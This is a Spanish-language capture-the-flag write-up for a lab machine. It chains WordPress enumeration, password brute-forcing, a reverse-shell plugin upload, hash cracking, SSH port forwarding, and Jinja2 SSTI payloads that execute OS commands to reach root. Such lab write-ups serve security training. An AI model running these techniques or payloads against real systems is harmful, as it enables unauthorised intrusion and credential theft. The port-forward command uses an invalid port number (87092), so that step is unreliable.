 # 🛡️ Resolución del CTF "TheFirstAvenger" | The HackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** TheFirstAvenger  
**Dificultad:** Alta  
**Enfoque:** Enumeración web, explotación WordPress, SSTI en Jinja2, port forwarding, escalada a root

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- -sS -sC -sV -Pn 192.168.1.127
```

Servicios detectados:

- 22 → OpenSSH  
- 80 → Apache HTTP  
- 3306 → MySQL (luego descubierto)  
- 7092 → Servicio interno accesible vía port forwarding

---

## 🌐 2. Análisis del puerto 80 y enumeración

Página WordPress accesible → `/wp-login.php`

Con `gobuster` descubrimos rutas adicionales en `/wp-content`, `/wp-admin`, etc.

---

## 🔍 3. Enumeración WordPress con WPScan

```bash
wpscan --url http://192.168.1.127
```

Se detecta el usuario `admin` y se realiza fuerza bruta obteniendo una contraseña válida.

---

## 🔓 4. Acceso al panel de administración

Se sube una reverse shell como plugin (`revshell.php`) y se activa desde el panel admin.

---

## 🧠 5. Acceso por reverse shell

```bash
nc -lvnp 1234
```

Reverse shell conectada desde WordPress con permisos limitados.

---

## 🔐 6. Enumeración de archivos: `wp-config.php`

Se obtienen credenciales de MySQL desde el archivo `wp-config.php`.

Se conecta a MySQL y se accede a la base `topsecret`. Se recuperan hashes de usuarios.

---

## 🔓 7. Cracking de hash

Con `john` y `rockyou.txt` se crackea la contraseña del usuario `steve`.

---

## 💻 8. Acceso SSH como `steve`

```bash
ssh steve@192.168.1.127
```

---

## 🛠️ 9. Detección de puerto interno: 7092

Con `netstat` se detecta un servicio Flask corriendo localmente en el puerto 7092.

---

## 🔄 10. Port Forwarding

```bash
ssh -N -L 87092:127.0.0.1:7092 steve@192.168.1.127
```

Ahora el servicio Flask es accesible en `http://localhost:87092`

---

## 💥 11. Explotación SSTI en Flask (Jinja2)

Input vulnerable a SSTI → se prueba con payloads como:

```jinja
{{7*7}}
{{config}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

Finalmente se lanza una reverse shell desde la SSTI.

---

## 🚪 12. Acceso como root

Gracias al SSTI ejecutando una shell como root, se obtiene acceso completo:

```bash
whoami
> root
```

---

## 🏁 13. Conclusión

- Enumeración WordPress y explotación vía plugin
- Reverse shell inicial y análisis de configuración
- Acceso a base de datos y crackeo de hash
- Acceso SSH como `steve`
- Port forwarding y explotación de SSTI
- Escalada a root

CTF con múltiples vectores reales y encadenamiento de técnicas web, hash cracking y explotación de SSTI.

